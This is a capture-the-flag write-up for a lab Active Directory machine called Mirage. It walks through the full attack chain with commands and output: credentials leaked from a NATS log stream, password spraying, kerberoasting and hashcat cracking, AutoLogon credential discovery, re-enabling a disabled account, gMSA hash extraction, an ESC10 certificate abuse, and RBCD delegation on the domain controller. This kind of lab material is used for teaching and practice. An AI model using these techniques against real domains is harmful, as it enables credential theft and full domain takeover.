{"type":"io.nats.jetstream.api.v1.stream_info_response","total":0,"offset":0,"limit":0,"config":{"name":"auth_logs","subjects":["logs.auth"],"retention":"limits","max_consumers":-1,"max_msgs":100,"max_bytes":1048576,"max_age":0,"max_msgs_per_subject":-1,"max_msg_size":-1,"discard":"new","storage":"file","num_replicas":1,"duplicate_window":120000000000,"compression":"none","allow_direct":true,"mirror_direct":false,"sealed":false,"deny_delete":true,"deny_purge":true,"allow_rollup_hdrs":false,"consumer_limits":{},"allow_msg_ttl":false,"metadata":{"_nats.level":"1","_nats.req.level":"0","_nats.ver":"2.11.3"}},"created":"2025-05-05T07:18:19.6244845Z","state":{"messages":5,"bytes":570,"first_seq":1,"first_ts":"2025-05-05T07:18:56.6788658Z","last_seq":5,"last_ts":"2025-05-05T07:19:27.2106658Z","num_subjects":1,"consumer_count":0},"cluster":{"leader":"NDTRMVIPHQ7PXHNBRGMELF4PA4D3H3X72ONZ46XCV7Y2Y5QZDVDEXYDI"},"ts":"2025-07-20T23:01:01.6504854Z"}


[#3] Received on "$JS.EVENT.ADVISORY.API"
{"type":"io.nats.jetstream.advisory.v1.api_audit","id":"x24wxd3uhF4Cx6EZX18JWD","timestamp":"2025-07-20T23:01:01.6504854Z","server":"NDTRMVIPHQ7PXHNBRGMELF4PA4D3H3X72ONZ46XCV7Y2Y5QZDVDEXYDI","client":{"start":"2025-07-20T16:01:01.6494356-07:00","host":"dead:beef::5298:fee0:e1d0:a97f","id":6101,"acc":"dev","user":"Dev_Account_A","name":"NATS CLI Version 0.2.2","lang":"go","ver":"1.41.1","rtt":521400,"server":"NDTRMVIPHQ7PXHNBRGMELF4PA4D3H3X72ONZ46XCV7Y2Y5QZDVDEXYDI","kind":"Client","client_type":"nats"},"subject":"$JS.API.STREAM.INFO.auth_logs","response":"{\"type\":\"io.nats.jetstream.api.v1.stream_info_response\",\"total\":0,\"offset\":0,\"limit\":0,\"config\":{\"name\":\"auth_logs\",\"subjects\":[\"logs.auth\"],\"retention\":\"limits\",\"max_consumers\":-1,\"max_msgs\":100,\"max_bytes\":1048576,\"max_age\":0,\"max_msgs_per_subject\":-1,\"max_msg_size\":-1,\"discard\":\"new\",\"storage\":\"file\",\"num_replicas\":1,\"duplicate_window\":120000000000,\"compression\":\"none\",\"allow_direct\":true,\"mirror_direct\":false,\"sealed\":false,\"deny_delete\":true,\"deny_purge\":true,\"allow_rollup_hdrs\":false,\"consumer_limits\":{},\"allow_msg_ttl\":false,\"metadata\":{\"_nats.level\":\"1\",\"_nats.req.level\":\"0\",\"_nats.ver\":\"2.11.3\"}},\"created\":\"2025-05-05T07:18:19.6244845Z\",\"state\":{\"messages\":5,\"bytes\":570,\"first_seq\":1,\"first_ts\":\"2025-05-05T07:18:56.6788658Z\",\"last_seq\":5,\"last_ts\":\"2025-05-05T07:19:27.2106658Z\",\"num_subjects\":1,\"consumer_count\":0},\"cluster\":{\"leader\":\"NDTRMVIPHQ7PXHNBRGMELF4PA4D3H3X72ONZ46XCV7Y2Y5QZDVDEXYDI\"},\"ts\":\"2025-07-20T23:01:01.6504854Z\"}"}
```

Just in case the other services need to work as well, let's put our SRE hat on and fix the DNS record for them.
```sh
 nsupdate << EOF
server 10.129.241.222
zone mirage.htb
update add nats-svc.mirage.htb. 3600 IN A 10.129.241.222
send
EOF
```

We didn't get any new logs after fixing the record. But enumerating MQTT topics and checking active streams, we can see the following:

```sh
$ nats -s nats://nats-svc.mirage.htb:4222 stream list --user Dev_Account_A --password DEVNATSPASS
╭─────────────────────────────────────────────────────────────────────────────────╮
│                                     Streams                                     │
├───────────┬─────────────┬─────────────────────┬──────────┬───────┬──────────────┤
│ Name      │ Description │ Created             │ Messages │ Size  │ Last Message │
├───────────┼─────────────┼─────────────────────┼──────────┼───────┼──────────────┤
│ auth_logs │             │ 2025-05-05 00:18:19 │ 5        │ 570 B │ 76d15h47m18s │
╰───────────┴─────────────┴─────────────────────┴──────────┴───────┴──────────────╯

$ nats -s nats://nats-svc.mirage.htb:4222 stream view auth_logs --user Dev_Account_A --password DEVNATSPASS
[1] Subject: logs.auth Received: 2025-05-05T00:18:56-07:00
{"user":"david.jjackson","password":"DJACKSONPASS","ip":"10.10.10.20"}


[2] Subject: logs.auth Received: 2025-05-05T00:19:24-07:00
{"user":"david.jjackson","password":"DJACKSONPASS","ip":"10.10.10.20"}


[3] Subject: logs.auth Received: 2025-05-05T00:19:25-07:00
{"user":"david.jjackson","password":"DJACKSONPASS","ip":"10.10.10.20"}


[4] Subject: logs.auth Received: 2025-05-05T00:19:26-07:00
{"user":"david.jjackson","password":"DJACKSONPASS","ip":"10.10.10.20"}


[5] Subject: logs.auth Received: 2025-05-05T00:19:27-07:00
{"user":"david.jjackson","password":"DJACKSONPASS","ip":"10.10.10.20"}


09:07:13 Reached apparent end of data
```

Not sure why kerbrute failed to load teh ccache, maybe I forgot to click save on the password file. But manually kiniting the ticket works fine so we'll move on.


```python
!kerbrute -domain mirage.htb -users users -passwords passwords
```

    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
    
    [*] Valid user => Dev_Account_A
    [*] Valid user => Dev_Account_B
    [*] Valid user => david.jjackson
    [*] No passwords were discovered :'(


```python
!echo 'DJACKSONPASS' | KRB5_CONFIG=./krb5.conf KRB5CCNAME=./david.jjackson.ccache kinit david.jjackson
```

    Password for david.jjackson@MIRAGE.HTB: 


Lets set the date and see if we can log in. 

```sh
 sudo ntpdate mirage.htb
20 Jul 16:26:34 ntpdate[400258]: step time server 10.129.241.222 offset +25201.520131 sec
```

Of course it's not this simple, we'll have to just start enumerating.
```sh
 KRB5_CONFIG=./krb5.conf KRB5CCNAME=./david.jjackson.ccache evil-winrm -i dc01.mirage.htb -r MIRAGE.HTB
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type GSSAPI::GssApiError happened, message is gss_init_sec_context did not return GSS_S_COMPLETE: Invalid token was supplied
Unknown code 0

                                        
Error: Exiting with code 1
```

Note that the password and username are affects of the `bloodhound-python` tool I don't necessarily understand, but using the ccache will still work as expected.


```python
!KRB5CCNAME=./david.jjackson.ccache KRB5_CONFIG=./krb5.conf bloodhound-python -d mirage.htb -c All --kerberos -no-pass -dc dc01.mirage.htb -ns 10.129.241.222 --auth-method kerberos -u david.jjackson -p 'DJACKSONPASS'
```

    INFO: Found AD domain: mirage.htb
    INFO: Using TGT from cache
    INFO: Found TGT with correct principal in ccache file.
    INFO: Connecting to LDAP server: dc01.mirage.htb
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 1 computers
    INFO: Connecting to LDAP server: dc01.mirage.htb
    INFO: Found 12 users
    INFO: Found 57 groups
    INFO: Found 2 gpos
    INFO: Found 21 ous
    INFO: Found 19 containers
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: dc01.mirage.htb
    INFO: Done in 00M 25S


See, kerbrute works with David now! We added some other targets here to keep the sprays going, but no new tickets are generated.


```python
!kerbrute -domain mirage.htb -users users -passwords passwords
```

    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
    
    [*] Valid user => Dev_Account_A
    [*] Valid user => Dev_Account_B
    [*] Valid user => david.jjackson
    [*] Valid user => nathan.aadam
    [*] Valid user => mark.bbond
    [*] Stupendous => david.jjackson:DJACKSONPASS
    [*] Saved TGT in david.jjackson.ccache


ABC: Always Be CNumerating.


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./david.jjackson.ccache certipy find -k -no-pass -target dc01.$target -stdout -vulnerable
```

    Certipy v5.0.3 - by Oliver Lyak (ly4k)
    
    [*] Finding certificate templates
    [*] Found 33 certificate templates
    [*] Finding certificate authorities
    [*] Found 1 certificate authority
    [*] Found 11 enabled certificate templates
    [*] Finding issuance policies
    [*] Found 13 issuance policies
    [*] Found 0 OIDs linked to templates
    [*] Retrieving CA configuration for 'mirage-DC01-CA' via RRP
    [*] Successfully retrieved CA configuration for 'mirage-DC01-CA'
    [*] Checking web enrollment for CA 'mirage-DC01-CA' @ 'dc01.mirage.htb'
    [!] Error checking web enrollment: [Errno 111] Connection refused
    [!] Use -debug to print a stacktrace
    [!] Error checking web enrollment: [Errno 111] Connection refused
    [!] Use -debug to print a stacktrace
    [*] Enumeration output:
    Certificate Authorities
      0
        CA Name                             : mirage-DC01-CA
        DNS Name                            : dc01.mirage.htb
        Certificate Subject                 : CN=mirage-DC01-CA, DC=mirage, DC=htb
        Certificate Serial Number           : 1512EEC0308E13A146A0B5AD6AA741C9
        Certificate Validity Start          : 2025-07-04 19:58:25+00:00
        Certificate Validity End            : 2125-07-04 20:08:25+00:00
        Web Enrollment
          HTTP
            Enabled                         : False
          HTTPS
            Enabled                         : False
        User Specified SAN                  : Disabled
        Request Disposition                 : Issue
        Enforce Encryption for Requests     : Enabled
        Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
        Permissions
          Owner                             : MIRAGE.HTB\Administrators
          Access Rights
            ManageCa                        : MIRAGE.HTB\Administrators
                                              MIRAGE.HTB\Domain Admins
                                              MIRAGE.HTB\Enterprise Admins
            ManageCertificates              : MIRAGE.HTB\Administrators
                                              MIRAGE.HTB\Domain Admins
                                              MIRAGE.HTB\Enterprise Admins
            Enroll                          : MIRAGE.HTB\Authenticated Users
    Certificate Templates                   : [!] Could not find any certificate templates


In this case we're just trying GetUserSPNs.py blindly to see if any users have an SPN set with which to kerberoast, and it works. However if we used some cypher queries in Bloodhound or just checked our identified users output, we would have seen `HTTP/exchange.mirage.htb` as an SPN for nathan which allows us to do this.


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./david.jjackson.ccache GetUserSPNs.py -request -usersfile users -target-domain $target -k -no-pass "mirage.htb/svc_mirage"
```

    /home/tokugero/ctf/htb/season8/week10-mirage/.venv/lib/python3.13/site-packages/impacket/version.py:10: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
      import pkg_resources
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
    
    [-] Principal: Dev_Account_A - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
    [-] Principal: Dev_Account_B - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
    [-] Principal: david.jjackson - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
    $krb5tgs$23$*nathan.aadam$MIRAGE.HTB$nathan.aadam*$ff8a04f07d5c26c4bf513489f4727aa8$16eae24e1<snip>>44c8be308d618d15f76e816cd37ac
    [-] Principal: mark.bbond - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
    [-] Principal: javier.mmarshall - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
    [-] Principal: svc_mirage - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
    $krb5tgs$18$Mirage-Service$MIRAGE.HTB$*Mirage-Service*$f854809b44cee0856b0e5d83$1cb00d8230dd66968e2<snip>>203fabbd20590fb1693c6c63cb00d3
    [-] Principal: administrator - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)


Running this against hashcat shows a new password: `NATHANADAMPASS`
```sh
 hashcat -m 13100 nathan.aadam.hash /nix/store/095gag0xj3zs6avrxrmn0996im9gzbyz-wordlists-collection/share/wordlists/rockyou.txt
hashcat (6.2.6) starting
...

Dictionary cache hit:
* Filename..: /nix/store/095gag0xj3zs6avrxrmn0996im9gzbyz-wordlists-collection/share/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5tgs$23$*nathan.aadam$MIRAGE.HTB$nathan.aadam*$3b898bd15cdd182c6010156a286127d0$1c<snip>8e6151af5182247ef49d:<PASSWORDSNIPPED>
````

Add it to our spray


```python
!kerbrute -domain mirage.htb -users users -passwords passwords
```

    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
    
    [*] Valid user => Dev_Account_A
    [*] Valid user => Dev_Account_B
    [*] Valid user => david.jjackson
    [*] Valid user => nathan.aadam
    [*] Valid user => mark.bbond
    [*] Blocked/Disabled user => javier.mmarshall
    [*] Blocked/Disabled user => svc_mirage
    [*] Stupendous => david.jjackson:DJACKSONPASS
    [*] Saved TGT in david.jjackson.ccache
    [*] Stupendous => nathan.aadam:NATHANADAMPASS
    [*] Saved TGT in nathan.aadam.ccache


And we finally get the user flag.

```sh
*Evil-WinRM* PS C:\Users\nathan.aadam\Desktop> type user.txt
4b3418dda9780859d3f9fe7e01a6cd78
*Evil-WinRM* PS C:\Users\nathan.aadam\Desktop> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ==============================================
mirage\nathan.aadam S-1-5-21-2127163471-3824721834-2568365109-1110


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MIRAGE\Exchange_Admins                      Group            S-1-5-21-2127163471-3824721834-2568365109-2601 Mandatory group, Enabled by default, Enabled group
MIRAGE\IT_Admins                            Group            S-1-5-21-2127163471-3824721834-2568365109-1106 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         5/25/2025   2:54 PM                Administrator
d-----         5/23/2025   3:27 PM                david.jjackson
d-----          5/2/2025   2:00 AM                Dev_Account_A
d-----         5/25/2025  11:03 AM                mark.bbond
d-----          7/4/2025   1:01 PM                nathan.aadam
d-r---          5/1/2025  12:31 AM                Public
```

There's no other interesting functionality in Bloodhound that we see here, and no interesting access to files, shares, or services. We'll blast some winpeas & chill:

```sh
   ...
   Computer Name           :   DC01
   User Name               :   svc_mirage
   User Id                 :   2604
   Is Enabled              :   False
   User Type               :   User
   Comment                 :   Old service account migrated by contractors
   Last Logon              :   1/1/1970 12:00:00 AM
   Logons Count            :   0
   Password Last Set       :   5/22/2025 1:37:45 PM
   ...
   ÉÍÍÍÍÍÍÍÍÍ͹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  MIRAGE
    DefaultUserName               :  mark.bbond
    DefaultPassword               :  MARKBONDPASS
```
Seems legit, let's add it and keep spraying


```python
!kerbrute -domain mirage.htb -users users -passwords passwords
```

    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
    
    [*] Valid user => david.jjackson
    [*] Valid user => nathan.aadam
    [*] Valid user => mark.bbond
    [*] Blocked/Disabled user => javier.mmarshall
    [*] Stupendous => david.jjackson:DJACKSONPASS
    [*] Saved TGT in david.jjackson.ccache
    [*] Stupendous => nathan.aadam:NATHANADAMPASS
    [*] Saved TGT in nathan.aadam.ccache
    [*] Stupendous => mark.bbond:MARKBONDPASS
    [*] Saved TGT in mark.bbond.ccache


We finally have a first clear goal. To what end, I don't know at this point; but we're going to get it.



Let's look at all available ACE fields we can write accross the domain.


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mark.bbond.ccache bloodyAD --host dc01.mirage.htb -d mirage.htb -k get writable --detail 
```
    ... 
    distinguishedName: CN=mark.bbond,OU=Users,OU=Support,OU=IT_Staff,DC=mirage,DC=htb
    ...
    distinguishedName: CN=javier.mmarshall,OU=Users,OU=Disabled,DC=mirage,DC=htb
    logonHours: WRITE
    userAccountControl: WRITE


Bloodhound shows the force password change, and bloodyad shows that we can update the logonHours and userAccountControl (enable/disable) fields with Mark.BBond.


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mark.bbond.ccache bloodyAD --host dc01.mirage.htb -d mirage.htb -k get object javier.mmarshall
```

    
    distinguishedName: CN=javier.mmarshall,OU=Users,OU=Disabled,DC=mirage,DC=htb
    accountExpires: 9999-12-31 23:59:59.999999+00:00
    badPasswordTime: 1601-01-01 00:00:00+00:00
    badPwdCount: 0
    cn: javier.mmarshall
    codePage: 0
    countryCode: 0
    dSCorePropagationData: 2025-05-22 21:49:20+00:00
    description: Contoso Contractors
    displayName: javier.mmarshall
    givenName: javier.mmarshall
    instanceType: 4
    lastLogoff: 1601-01-01 00:00:00+00:00
    lastLogon: 2025-05-25 18:43:57.120180+00:00
    lastLogonTimestamp: 2025-05-22 21:45:29.508220+00:00
    logonCount: 13
    logonHours: <21 repeating nullbytes>
    memberOf: CN=IT_Contractors,OU=Groups,OU=Contractors,OU=IT_Staff,DC=mirage,DC=htb
    msDS-SupportedEncryptionTypes: 0
    nTSecurityDescriptor: O:S-1-5-21-2127163471<snip>;CIID;LC;;;S-1-5-32-554)(A;CIID;0xf01bd;;;S-1-5-32-544)
    name: javier.mmarshall
    objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=mirage,DC=htb
    objectClass: top; person; organizationalPerson; user
    objectGUID: c52e731b-30c1-439c-a6b9-0c2f804e5f08
    objectSid: S-1-5-21-2127163471-3824721834-2568365109-1108
    primaryGroupID: 513
    pwdLastSet: 2025-05-25 18:44:43.217870+00:00
    sAMAccountName: javier.mmarshall
    sAMAccountType: 805306368
    uSNChanged: 69841
    uSNCreated: 24655
    userAccountControl: ACCOUNTDISABLE; NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD
    userPrincipalName: javier.mmarshall@mirage.htb
    whenChanged: 2025-05-25 18:44:43+00:00
    whenCreated: 2025-05-02 08:33:11+00:00


We can also see from bloodyAD that the userAccountControl is "ACCOUNTDISABLE" and the logonHours are set to 21 null bytes, which means the user is not allowed to log in at any time.

> I don't know what the deal was with my boxes, maybe the time was ever so slightly askew or maybe I'm just insane, but sometimes I had to respawn this box a half dozen times before I could get Javier to register as not-disabled. If I hadn't gotten lucky the first time, I may have never realized it.

`add|remove uac` can target specific flags, and `set object` can set the mask directly. This is an example for both, but only one or the other is necessary. See [Microsoft Docs](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties) for more information about fields. It's worth noting that permissions are per-flag, not for the field as a whole; so just becasue you can set one bit doesn't mean you can set them all.


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mark.bbond.ccache bloodyAD --host dc01.mirage.htb -d mirage.htb -k remove uac javier.mmarshall -f ACCOUNTDISABLE
```

    [-] ['ACCOUNTDISABLE'] property flags removed from javier.mmarshall's userAccountControl


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mark.bbond.ccache bloodyAD --host dc01.mirage.htb -d mirage.htb -k set object -v 66048 --raw javier.mmarshall userAccountControl 
```

    [+] javier.mmarshall's userAccountControl has been updated


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mark.bbond.ccache bloodyAD --host dc01.mirage.htb -d mirage.htb -k set password javier.mmarshall 'Password1234!'
```

    [+] Password changed successfully!


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mark.bbond.ccache bloodyAD --host dc01.mirage.htb -d mirage.htb -k set object -v ///////////////////// --raw javier.mmarshall logonHours 
```

    [+] javier.mmarshall's logonHours has been updated


With these fields all updated, we can verify our state and attempt to log in with javier.


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mark.bbond.ccache bloodyAD --host dc01.mirage.htb -d mirage.htb -k get object javier.mmarshall
```

    
    distinguishedName: CN=javier.mmarshall,OU=Users,OU=Disabled,DC=mirage,DC=htb
    accountExpires: 9999-12-31 23:59:59.999999+00:00
    badPasswordTime: 1601-01-01 00:00:00+00:00
    badPwdCount: 0
    cn: javier.mmarshall
    codePage: 0
    countryCode: 0
    dSCorePropagationData: 2025-05-22 21:49:20+00:00
    description: Contoso Contractors
    displayName: javier.mmarshall
    givenName: javier.mmarshall
    instanceType: 4
    lastLogoff: 1601-01-01 00:00:00+00:00
    lastLogon: 2025-05-25 18:43:57.120180+00:00
    lastLogonTimestamp: 2025-05-22 21:45:29.508220+00:00
    logonCount: 13
    logonHours: ///////////////////// # This is 21 repeating / which is base64 for FF*24
    memberOf: CN=IT_Contractors,OU=Groups,OU=Contractors,OU=IT_Staff,DC=mirage,DC=htb
    msDS-SupportedEncryptionTypes: 0
    nTSecurityDescriptor: O:S-1-5-21-2127163471-3824721834-25683651<snip>09-519)(A;CIID;LC;;;S-1-5-32-554)(A;CIID;0xf01bd;;;S-1-5-32-544)
    name: javier.mmarshall
    objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=mirage,DC=htb
    objectClass: top; person; organizationalPerson; user
    objectGUID: c52e731b-30c1-439c-a6b9-0c2f804e5f08
    objectSid: S-1-5-21-2127163471-3824721834-2568365109-1108
    primaryGroupID: 513
    pwdLastSet: 2025-07-23 06:30:13.784490+00:00
    sAMAccountName: javier.mmarshall
    sAMAccountType: 805306368
    uSNChanged: 159874
    uSNCreated: 24655
    userAccountControl: NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD
    userPrincipalName: javier.mmarshall@mirage.htb
    whenChanged: 2025-07-23 06:30:15+00:00
    whenCreated: 2025-05-02 08:33:11+00:00


```python
!kerbrute -domain mirage.htb -users users -passwords passwords
```

    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
    
    [*] Valid user => david.jjackson
    [*] Valid user => nathan.aadam
    [*] Valid user => mark.bbond
    [*] Valid user => javier.mmarshall
    [*] Stupendous => david.jjackson:DJACKSONPASS
    [*] Saved TGT in david.jjackson.ccache
    [*] Stupendous => javier.mmarshall:Password1234!
    [*] Saved TGT in javier.mmarshall.ccache
    [*] Stupendous => nathan.aadam:NATHANADAMPASS
    [*] Saved TGT in nathan.aadam.ccache
    [*] Stupendous => mark.bbond:MARKBONDPASS
    [*] Saved TGT in mark.bbond.ccache


Looks like it worked, full access to javier now.

We can finally leverage that readgMSA privilege from Bloodhound.

These are two ways to do the same thing with nxc and bloodyAD, both need to be ran through getTGT to convert the NTLM hash into a ticket.


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./javier.mmarshall.ccache nxc ldap dc01.mirage.htb -d mirage.htb --use-kcache --gmsa 
```

    LDAP        10.129.28.199   389    dc01.mirage.htb  [*]  x64 (name:dc01.mirage.htb) (domain:mirage.htb) (signing:True) (SMBv1:False)
    LDAP        10.129.28.199   636    dc01.mirage.htb  [+] mirage.htb\javier.mmarshall from ccache
    LDAP        10.129.28.199   636    dc01.mirage.htb  [*] Getting GMSA Passwords
    LDAP        10.129.28.199   636    dc01.mirage.htb  Account: Mirage-Service$      NTLM: 305806d84<snip>c7866


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./javier.mmarshall.ccache bloodyAD --host dc01.mirage.htb -d mirage.htb -k get object 'mirage-service$' --attr msDS-ManagedPassword
```

    
    distinguishedName: CN=Mirage-Service,CN=Managed Service Accounts,DC=mirage,DC=htb
    msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:305806d84<snip>c7866
    msDS-ManagedPassword.B64ENCODED: 43A01mr7V2LGukxowctr<snip>SSjog==


> note that this will fail unless the gmsa is read within a short time of generating this. At least, that's the hypothesis as this getTGT will fail if javier hasn't looked up the NTLM within a short time before this.


```python
!getTGT.py -hashes :305806d84<snip>c7866 mirage.htb/mirage-service
```

    /home/tokugero/ctf/htb/season8/week10-mirage/.venv/lib/python3.13/site-packages/impacket/version.py:10: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
      import pkg_resources
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
    
    [*] Saving ticket in mirage-service.ccache


And with the working ccache, we can authenticate with mirage-service.


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mirage-service.ccache bloodyAD --host dc01.mirage.htb -d mirage.htb -k get writable --detail --include-del
```

    distinguishedName: CN=mark.bbond,OU=Users,OU=Support,OU=IT_Staff,DC=mirage,DC=htb
    ...
    altSecurityIdentities: WRITE
    servicePrincipalName: WRITE
    userPrincipalName: WRITE
    ...
    
    distinguishedName: CN=Mirage-Service,CN=Managed Service Accounts,DC=mirage,DC=htb
    ...


The service account, for some reason, has permissions for Mark Bond to set UPN. This is a key requirement for ESC10, along with a service account that we control. Using that we can do the following flow:  
1) Set Mark's UPN to our target 
2) Request a certificate for that UPN  
3) Reset Mark's UPN so it's not used in future lookups
4) Authenticate with our certificate to get access to schannel  


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mirage-service.ccache bloodyAD --host dc01.mirage.htb -d mirage.htb -k set object -v 'dc01$@mirage.htb' --raw mark.bbond userPrincipalName 
```

    [+] mark.bbond's userPrincipalName has been updated


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mirage-service.ccache certipy account update -dc-host dc01.mirage.htb -target dc01.mirage.htb -user 'mark.bbond' -k -upn 'dc01$@mirage.htb'
```

    Certipy v5.0.3 - by Oliver Lyak (ly4k)
    
    [*] Updating user 'mark.bbond':
        userPrincipalName                   : dc01$@mirage.htb
    [*] Successfully updated 'mark.bbond'


```python
!rm *.pfx
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mark.bbond.ccache certipy req -k -target dc01.mirage.htb -template 'User' -ca mirage-DC01-CA
```

    Certipy v5.0.3 - by Oliver Lyak (ly4k)
    
    [!] DC host (-dc-host) not specified and Kerberos authentication is used. This might fail
    [*] Requesting certificate via RPC
    [*] Request ID is 10
    [*] Successfully requested certificate
    [*] Got certificate with UPN 'dc01$@mirage.htb'
    [*] Certificate object SID is 'S-1-5-21-2127163471-3824721834-2568365109-1109'
    [*] Saving certificate and private key to 'dc01.pfx'
    [*] Wrote certificate and private key to 'dc01.pfx'


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mirage-service.ccache certipy account update -dc-host dc01.mirage.htb -target dc01.mirage.htb -user 'mark.bbond' -k -upn 'mark.bbond@mirage.htb'
```

    Certipy v5.0.3 - by Oliver Lyak (ly4k)
    
    [*] Updating user 'mark.bbond':
        userPrincipalName                   : mark.bbond@mirage.htb
    [*] Successfully updated 'mark.bbond'


```python
!certipy auth -pfx 'dc01.pfx' -dc-ip 10.129.194.106 -ldap-shell
```

    Certipy v5.0.3 - by Oliver Lyak (ly4k)
    
    [*] Certificate identities:
    [*]     SAN UPN: 'dc01$@mirage.htb'
    [*]     Security Extension SID: 'S-1-5-21-2127163471-3824721834-2568365109-1109'
    [*] Connecting to 'ldaps://10.129.194.106:636'
    [*] Authenticated to '10.129.194.106' as: 'u:MIRAGE\\DC01$'
    Type help for list of commands
    
    # Bye!
    
    ^C


Now that we have a working certificate, it's just a matter of figuring out how to leverage it. In my case, I use it to give the DC I just authenticated to an RBCD assignment using certipy's ldap-shell.

```sh
 certipy auth -pfx 'dc01.pfx' -dc-ip 10.129.194.106 -ldap-shell
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'dc01$@mirage.htb'
[*]     Security Extension SID: 'S-1-5-21-2127163471-3824721834-2568365109-1109'
[*] Connecting to 'ldaps://10.129.194.106:636'
[*] Authenticated to '10.129.194.106' as: 'u:MIRAGE\\DC01$'
Type help for list of commands

# set_rbcd dc01$ mirage-service$
Found Target DN: CN=DC01,OU=Domain Controllers,DC=mirage,DC=htb
Target SID: S-1-5-21-2127163471-3824721834-2568365109-1000

Found Grantee DN: CN=Mirage-Service,CN=Managed Service Accounts,DC=mirage,DC=htb
Grantee SID: S-1-5-21-2127163471-3824721834-2568365109-1112
Currently allowed sids:
    S-1-5-21-2127163471-3824721834-2568365109-1110
Delegation rights modified successfully!
mirage-service$ can now impersonate users on dc01$ via S4U2Proxy
```

We can see that the msDS-AllowedToActOnBehalfOfOtherIdentity is now set so that mirage-service can assume whatever it wants so long as it's going through this system.


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mirage-service.ccache bloodyAD --host dc01.mirage.htb -d mirage.htb -k get object dc01$
```

    
